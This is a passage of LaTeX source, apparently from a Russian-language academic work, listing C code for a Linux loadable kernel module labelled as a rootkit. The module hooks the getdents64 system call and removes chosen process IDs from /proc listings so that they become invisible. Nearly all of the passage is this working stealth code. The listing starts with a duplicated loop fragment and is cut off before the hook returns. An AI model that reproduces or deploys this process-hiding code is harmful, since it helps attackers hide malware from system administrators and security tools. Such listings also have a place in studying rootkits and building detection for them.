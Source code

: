 \begin{lstlisting}[language=c,caption={Загружаемый модуль ядра, файл реализации},label=lst:rootkit_c]
        if (is_invisible_pid(str_to_pid(dirent_var->d_name))) {
            if (!dirent_prev) { // <==> if (dirent_var == kdirent)
                memmove(
                    dirent_var, (void *)dirent_var + dirent_var->d_reclen, ret
                );
                ret -= dirent_var->d_reclen;
            }
            else {
                dirent_prev->d_reclen += dirent_var->d_reclen;
                off += dirent_var->d_reclen;
            }
        }
        else {
            dirent_prev = dirent_var;
            off += dirent_var->d_reclen;
        }
    }

    copy_to_user(dirent, kdirent, ret);
    kfree(kdirent);

    return ret;
}

KHOOK_EXT(long, __x64_sys_getdents64, const struct pt_regs *);
static long khook___x64_sys_getdents64(const struct pt_regs *pt_regs) {
    int fd; 
    long ret;
    long off = 0;

    struct inode *d_inode;
    struct linux_dirent64 *dirent, *kdirent, *dirent_var, *dirent_prev;

    fd = (int)pt_regs->di;
    dirent = (struct linux_dirent64 *)pt_regs->si;

    ret = KHOOK_ORIGIN(__x64_sys_getdents64, pt_regs);
    if (ret <= 0)
        return ret;

    d_inode =
        current->files->fdt->fd[fd]->f_path.dentry->d_inode;
    if (d_inode->i_ino != PROC_ROOT_INO)
        return ret;

    kdirent = kzalloc(ret, GFP_KERNEL);
    if (!kdirent)
        return ret;

    if (copy_from_user(kdirent, dirent, ret)) {
        kfree(kdirent);
        return ret;
    }

    while (off < ret) {
        dirent_var = (void *)kdirent + off;

        if (is_invisible_pid(str_to_pid(dirent_var->d_name))) {
            if (!dirent_prev) { // <==> if (dirent_var == kdirent)
                memmove(
                    dirent_var, (void *)dirent_var + dirent_var->d_reclen, ret
                );
                ret -= dirent_var->d_reclen;
            }
            else {
                dirent_prev->d_reclen += dirent_var->d_reclen;
                off += dirent_var->d_reclen;
            }
        }
        else {
            dirent_prev = dirent_var;
            off += dirent_var->d_reclen;
        }
    }

    copy_to_user(dirent, kdirent, ret);
    kfree(kdirent);


\end{lstlisting}
